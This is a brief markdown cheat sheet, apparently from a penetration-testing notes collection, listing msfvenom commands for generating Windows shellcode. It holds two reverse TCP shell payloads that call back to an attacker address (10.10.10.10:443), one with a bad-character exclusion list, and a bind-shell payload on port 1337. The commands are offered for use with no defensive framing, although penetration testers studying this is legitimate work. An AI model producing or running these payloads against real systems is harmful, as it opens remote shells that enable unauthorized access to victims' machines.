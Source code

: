 ```yaml
---
description: >-
  MSFvenom is a combination of Msfpayload and Msfencode, putting both of these
  tools into a single Framework instance. msfvenom replaced both msfpayload and
  msfencode as of June 8th, 2015.
---
```


# MSFvenom

## Types of Shellcode

### Generic Shellcode

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e generic/none
```

### Windows Reverse TCP Shell (x86)

Only use this type if payload size is not a problem and you can't determine the bad chars.

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"
```

### Blind Shellcode

```
msfvenom -p windows/shell_bind_tcp RHOST=10.11.11.11 LPORT=1337 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f python
```
